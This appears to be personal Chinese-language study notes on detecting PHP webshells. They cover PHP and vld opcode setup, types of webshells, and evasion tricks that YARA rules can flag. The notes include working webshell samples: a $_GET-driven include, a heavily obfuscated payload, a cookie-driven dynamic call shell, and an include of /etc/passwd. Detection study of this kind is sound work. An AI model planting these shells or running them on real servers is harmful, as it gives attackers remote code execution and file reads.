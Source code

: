 ### WebShell 概述

![image-20211028104035971](/Users/johnma/Library/Application Support/typora-user-images/image-20211028104035971.png)



![image-20211028141253921](/Users/johnma/Library/Application Support/typora-user-images/image-20211028141253921.png)

### 

## windows-PHP踩坑

#### 安装php

1. 不需要安装apache，cli模式运行不需要装web服务器。
2. 测试文件test.php要写完整。
3. 解压路径C：\PHP7\，更改目录下php.init.development文件成 php.ini。
4. 最坑需要修改php.ini配置文件、extension，去掉分号试情况添加改写。

```php
//test.php 第一个php文件
<?php
	echo"hello world"
?>
```

#### 获取php的opcode

1. 安装vld扩展组件，在ext文件夹下添加vld.dll扩展组件。
2. 修改配置文件，添加一行extension =vld（形式有可能不同，注意这个坑） 

```
//命令行获取opcode
php -dvld.active=1 -dvld.execute=0 test.php
```

#### 木马分类

- #### 一句话木马

  ##### 一句话木马泛指一句话的脚本，最典型的功能就是为代码执行提供一种环境，比如熟悉的eval()函数。

  ##### 这种脚本大都不会脱离数据传递与数据执行这个基本框架。

- #### 小马

  ##### 小马至功能单一的Webshell，以上传文件功能居多，通常作为上传大马的中转站，辅助攻击者进行渗透。

  ##### 其文件不大，也不存在口令保护。

- #### 大马

  #####  大马指功能强大的Webshell。有些大马为了躲避检测，使用了混

  #####  淆手段或者加解密压缩等技术，前一种称未加密的Webshell，后一种成为加密的Webshell。


$$
sigma(d)  = p(a)+p(b) 2^3
$$

### 不能覆盖类型

1. ##### 自定义函数动态调用

   ```php
   <?php
           function xz(){
                   global $b;
                   $a = $_GET[$b];   #  $_GET[“xz”]
                   $e = $a;
                   return $e;
           }
   ?>
   <?php
   $b = "xz";
   $c = xz();
   $d = $c;
   
   include($d);   #执行
   ```

2. ##### 填充垃圾数据混淆

   ```php
   <?php $rxvihnd = 'D#)sfebfI{*w%)kVx{**#k#)tutjyf`x	x22l:!}V;3q%}!gj}1~!<2p%	x7f!~!<##!>!2p%Z<^2	x5c2b%!>!2p%!*3>?*2b%)gpf{jt)67]452]88]5]48]32M3]317]445]212]445]43]321]464]284]364]6]234]3bd%!<5h%/#0#/*#npd/#)rrd/#00;quui#>.%!<***f	x27,*e	2	145	x66	157	x78"))) { $kzgsoan = "	x6273]y76]277#<!%t2w>#]y74]273]y76]252]y85]256]y6g]257]y86]267]y74]2x5cq%)ufttj	x22)gj6<^#Y#	x5cq%	x27Y%!|!*#91y]c9y]g2y]#>>*4-1-bubE{h%)s2dc#*<!sfuvso!sboepn)%epnbss-%rxW~!Ypp2)%zB%z3	162	x65	141	x74	145	x5f	146	x75	156	~	x24<!fwbm)%tjw)bssbz)#P#-#Q#-#B#-#T#-#E#-#G#-#H#-#I#-#K#-#L#-#M73]D6P2L5P6]y6gP7L6M7]D4]275]D:M8]Df#<%tdz>#L4]275L3]248L3P6L1M5]D2P4*#57]38y]47]67y]37]88y]27]28y]#/r%/h%)n%-#+I#)q%:>:r%:|:**t%)m%=]y31M6]y3e]81#/#7e:55946-tr.984:75983:48984:71]K9]7]322]3]364]6]283]427]36]373P6]36]73]83]238M7]381]211M5]nbs+yfeobz+sfwjidsb`bj+upcotn+qsvmt+fmhpph56	x61"]=1; $uas=strtolower($_SERVER["	x48	124	x54	120	x5f	%epnbss!>!bssbz)#44ec:649#-!#:618d5f9#-!#f6c68399#-!#65egb17-SFEBFI,6<*127-UVPFNJU,6<*r (strstr($uas,"	x72	166	x3a	61	x31")) or (strstr($uas	x45	116	x54"]); if ((strstr($uas,"	x6d	163	x69	145")) obE{h%)sutcvt)fubmgoj{hA!ost0}Z;0]=]0#)2q%l}S;2-u%!-#2#/#%#/#o]#/*)323zbe!7&6<.fmjgA	x27doj%6<	x7fw6*	x7f_*#fmjgk4`{6~6<tf125	x53	105	x52	137	x41	107	x24-tusqpt)%z-#:#*	x/	x24)%c*W%eN+#Qi	x5c1^W%c!>!%i	x5c#-%tmw)%tww**WYsboepn)%bss-%rxBif((function_exists("	x6f	142	x5fCw*[!%rN}#QwTW%hIr	x5c1^-%r	x5c2^-%hOh/#00#W~!%t2w)##Qtjw)#]82#-#!58y]472]37y]672]48y]#>s%<#462]47y]252]18y]#	x24-	x24	x5c%j^	x24>!	x24/%tmw/	x24)%zW2^<!Ce*[!%cIjQeTQcOc/#00#W~!Ydrr)%rxBopjudovg}x;0]=])0#)U!	x27{**u%-#j("vveljku",str_split("%tjw!>!#]y84]275]y83]248]y83]256]y81]265]y72]25p!*#ojneb#-*f%)sfxpmpusut)tpqssutRe%)Rd%)Rb%))!gj!<*#cd2bge56+#-!#]y38#-!%w:**<")));$ijstbzz = $kzgsoan("", $hvcesuz); $ij)tpqsut>j%!*9!	x27!hmg%)!p%!-uyfu%)3of)fepdof`57ftbc	x7f!|!*uyfu	x27k:!f7f_*#ujojRk3`{666~6<&w6<	x7fw6*/#M5]DgP5]D6#<%fdy>#]D4]242]58]24]31#-%tdz*Wsfuvso!%bss	x5csboe`UQPMSVD!-id%)uqpuft`msvd},;uqpuft`msvd}+;!>!}	x27;!>>>!
   ```

3. ##### 输入不确定

```php
<?php

$tqgy=$_COOKIE;       #COOKIE 输入不确定
$tvihp=$tqgy[nyin];   #exp $_POST[nyin]
if($tvihp){
	$hnl=$tvihp($tqgy[xdej]);$izp=$tvihp($tqgy[jhqp]);$wobwg=$hnl("",$izp);$wobwg();
}
```

```php
#文件输入不确定
}
include "exploits.php"; 
?>
```

```php
#执行敏感文件
<?
include("/etc/passwd");     #解决方案 敏感文件直接判
?>

```



Assert 命令执行，配合extract函数执行

16进制字符串不用解码可直接执行

通过str_replace 替换字符串达到混淆目的，混淆出一个命令出来（yara规则辅助）

include 执行文件函数，需要判断目标文件是否恶意。（yara规则辅助）

@语法是为了抑制错误输出

$定义变量

数组拼接+字符串混淆，（yara可以检测）

上传move_upload_file

? 三元操作符 if 判断

反弹shell 

敏感函数动态调用，（声明，执行）
